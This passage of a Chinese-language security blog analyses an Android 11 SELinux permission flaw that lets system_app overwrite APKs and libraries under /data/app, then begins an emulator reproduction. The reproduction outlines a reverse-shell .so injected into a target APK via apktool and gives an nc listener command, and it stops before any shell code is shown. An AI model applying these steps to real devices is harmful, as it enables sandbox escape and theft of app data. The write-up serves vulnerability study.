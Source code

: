 修复只是针对 system_app，system_app 是 uid = 1000 并且是系统签名的 apk，修复对 system_app 的权限进行了删除：

1. 去掉了对 apk_data_file 的写权限， /data/app(/.*)? 和 /data/incremental(/.*)? 目录为 apk_data_file
2. 去掉了对 incremental_control_file 的读文件权限，/data/incremental/MT_[^/] 目录为 incremental_control_file

/data/app 会包含有 app 信息，还有这些 app 所使用的 lib 库。而 /data/incremental 并没有有效文件。

#### 小结

1. 能理解危害只有 Moderate，漏洞只影响 system app，这种 app 只有系统厂家才能使用，漏洞利用有限，需要结合 system app 漏洞一起使用
2. 若存在 system app 任意代码执行或者任意文件写，可以对 /data/app 目录下 apk 和 lib 库进行修改替换，这样达到突破沙箱限制
3. 只能进行修改替换，不能新增文件，因为从现有的权限上看，没有创建文件和添加文件的权限，现有权限为：
![graph]({{"/assets/pictures/security/apk_perms.png" | prepend:site.baseurl}})

### 其他漏洞

#### 三星漏洞

![graph]({{"/assets/pictures/security/sam_cve.png" | prepend:site.baseurl}})

从描述上看，该漏洞是可以通用远程 socket 控制 system 用户写文件


## 总结

![graph]({{"/assets/pictures/security/da_intro.png" | prepend:site.baseurl}})

结合安全大牛徐昊中的评语和上述分析可知，漏洞主要是由于在 Android 11 上增加了 system_app 写 apk_data_file 的权限，在结合厂商的 system app 的漏洞，就可以对 /data/app 下文件进行修改替换，来得到访问/data/app下 app 的私有数据等信息。回过头来看，最开始的对该漏洞的描述，“攻击任何其他应用”描述过于夸大，其实只能攻击三方 app，或者升级后的系统 app，这样的 app 才会将 apk 保存在 /data/app 目录。


## 复现漏洞

漏洞需要结合 system app漏洞，为了方便复现，我这边使用有源码的 lineageos 的模拟器操作，（为什么使用这个？因为我最近刚编译了这个^_^）system app 漏洞可以直接在 settings 上修改。利用的话就是反弹 shell，目标 apk 选择了开源文件管理 [AmazeFileManager](https://github.com/TeamAmaze/AmazeFileManager)，使用这个 apk 是由于该 apk 包含有 x86 的 so 文件，模拟器是 x86 架构，不能运行 arm 架构，若是有真机，完全可以对任意 app 进行操作。

### 复现思路

1. 本地开启 nc server
2. 反射 shell 代码编译成单独的 so
3. 然后使用 apktool 工具修改目标 apk 的 smali，将 so 加载进去，获取到修改后的 apk
4. 在 settings 上编写代码，修改替换 apk 的 base.apk 和 so 文件

#### 开启 nc server

``` bash

nc -vv -l -p 8888  # 本地端口 8888

```

#### 反射 shell 代码
